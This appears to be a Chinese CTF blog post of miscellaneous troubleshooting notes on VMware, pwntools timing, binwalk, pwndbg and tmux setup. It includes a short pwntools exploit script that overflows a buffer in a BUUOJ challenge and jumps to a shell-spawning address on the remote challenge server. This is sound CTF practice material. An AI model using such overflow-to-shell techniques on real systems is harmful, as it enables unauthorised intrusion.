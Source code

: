 ```yaml
---
title: 遇到的奇奇怪怪问题汇总
tags: [ctf-pwn,Others]
date: 2023-12-05 13:58:00
categories: [杂项]
excerpt: 解决或未解决的奇怪问题
---
```


**vmware自带的vmtools安装了也复制不进来**

虚拟机执行命令

```
sudo apt-get install open-vm-tools-desktop
```

如果拖放文件的时候出现了

![](/img/杂项/problems/1.jpg)

```
sudo gedit /etc/gdm3/custom.conf
```

将`WaylandEnable=false`注释掉

据说是vmware还没有支持ubutnu22.04的默认桌面Wayland



#### sleep ？

题目：

<https://buuoj.cn/challenges#mrctf2020_easyrop>

本来是很简单的一个溢出

```python
from pwn import *
from time import sleep
#r = process('./mrctf2020_easyrop')
r = remote('node4.buuoj.cn',25663)
system_sh =0x000000000040072A
r.sendline(b'2')
#sleep(1)
r.sendline(b'a'*0x300)
r.sendline(b'7')
#sleep(1)
r.sendline(b'a'* 0x12 + p64(system_sh))
r.interactive()
```

但是不加sleep无法通过

有人说是python同时发送多个字符串时会合并(?)

那什么时候情况下需要在sendline前面加一个sleep

​    [已解决] 打本地不加应该没事，打远程的时候肯定会有一点延迟，假如没有sendafter这一类的发送，就可能会造成后面的也一起发送了，所以每次写exp发送的时候最好用sendafter或者sendlineafter这样的话就不需要再担心sleep(1)了

----------------------------------------------------------------------------------



#### binwalk提取固件时快捷方式指向/dev/null

binwalk提取固件时会有一个warning

```
WARNING: Symlink points outside of the extraction directory: /home/kali/Desktop/dir815_FW_101/_DIR-815 FW 1.01b14_1.01b14.bin.extracted/squashfs-root/htdocs/web/dlcfg.cgi -> /htdocs/cgibin; changing link target to /dev/null for security purposes.
```

用到这个快捷方式时要修改一下



#### sendlineafter的问题

要加上换行符`\n`，否则匹配不上

```
p.sendlineafter(b'Input your Plaintext to be encrypted\n',...)
```



#### python调用c库函数

```python
from ctypes import *
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(0)
libc.rand()%6 + 1
```



#### 安装ubuntu18，pwndbg安装不上（setup.sh总有问题）

选择用pwndbg release的安装包，安装之后把`/usr/bin/gdb`给改成`/usr/ bin/pwndbg`的软连接

然后在调用`gdb.attach`时弹不出来新的窗口：

采用tmux解决，安装tmux后，程序开头加上一句话

```python
context.terminal = ["tmux", "splitw", "-h"]
```

然后再命令行先运行sudo tmux，然后运行exp.py，就可以弹出来gdb了。

然后发现无法滚动鼠标，使用`ctrl + shift + b + :`进入命令模式，输入`set -g mouse on`

就可以滚动终端了

